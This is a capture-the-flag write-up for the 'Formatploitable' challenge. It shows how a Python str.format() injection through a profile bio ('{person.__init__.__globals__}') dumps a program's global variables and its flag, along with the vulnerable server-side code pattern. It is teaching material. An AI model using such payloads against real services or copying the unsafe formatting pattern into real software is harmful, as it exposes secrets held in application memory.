 ```yaml
---
title: "Lag'n'Crash CTF: Formatploitable"
date: "2021-03-14T08:13:21Z"
description: "Write-up for Lag'n'Crash CTF challenge, formatploitable"
---
```

# Challenge Overview
> Our intel says that the flag is a global variable in this python program, yet we cannot retrieve it through normal means.
>
> nc challenge1.lagncrash.com 13028

Connecting to the server we are presented with four options.
```
Welcome to Rafale 1.0!
1) Create profile
2) View badge
3) Patch Notes
4) Exit
```

We can create a profile and provide a name and a bio:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
Hi, I'm Dave
```

We can display our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : Hi, I'm Dave
╚════════════════════════════════════════════════
```

We can view patch notes:
```
(picked option 3)
Update 1.0.94795585:
The choice to format your profile has been added!

Example profile: Hi! Im {}, nice to meet you!

Further implementations coming soon!
```

# Solution
This challenge attempts to demonstrate the unsafe nature of Python's `.format()`.
Behind the scenes, the profile is displayed by a script similar to:
```python
class Person:
    def __init__(self, name, profile):
        self.name = name
        self.profile = profile


# Note that s is a socket
# When creating a profile:
name_format = s.recv(1024)
profile_format = s.recv(1024)
person = Person(name_format, profile_format)

# When displaying the profile
name = name_format.format(person=person)
s.sendall(name)
profile = profile_format.format(person=person)
s.sendall(profile)
```

We are expected to guess that the data is formatted using the `person` keyword
argument. Then, using the `Person` object, we access the global variables using
`__globals__`:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{person.__init__.__globals__}
```
Then, view our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7b70094d00>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'Formatploitable.py', '__cached__': None, 'CONFIG': {'FLAG': '{sTr1ng_f0rm4tT1nG_xpl0it3d}'}, 'Person': <class '__main__.Person'>, 'cont': True, 'choice': '2', 'person': <__main__.Person object at 0x7f7b6ffaccd0>}
╚════════════════════════════════════════════════
```

So we can see the flag is `LNC{sTr1ng_f0rm4tT1nG_xpl0it3d}'}`.

# Explanation and other possibilities
## 1. Keyword arguments vs positional arguments
Personally, I had a lot of trouble finding the word that was used because I did
not expect to guess the keyword argument used.

The vulnerability demonstrated here can also be shown through positional
arguments:
```python
# When displaying the profile
name = name_format.format(person)
s.sendall(name)
profile = profile_format.format(person)
s.sendall(profile)
```
Then, the payload will need to be adjusted to:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{0.__init__.__globals__}
```

## 2. `__globals__` is only accessible by user-defined functions and imported functions
It should be noted that if the given code used is:
```python
# When displaying the profile
name = name_format.format(person.name)
s.sendall(name)
profile = profile_format.format(person.profile)
s.sendall(profile)
```

It is not possible to access the global variables. This is because `__globals__`
is a special attribute given to all [user-defined functions](https://docs.python.org/3/reference/datamodel.html#index-34)
and all [imported functions](https://docs.python.org/3/reference/datamodel.html#index-42).

For example, we have already seen a user-defined function (technically _method_)
in the `Person` object. The same problem will arise for functions:
```python
def hello():
    pass

print(hello.__globals__)
```

Likewise, for imported functions:
```python
import base64
print(base64.b64encode.__globals__)
```
Imported functions will display the `__globals__` for their module.
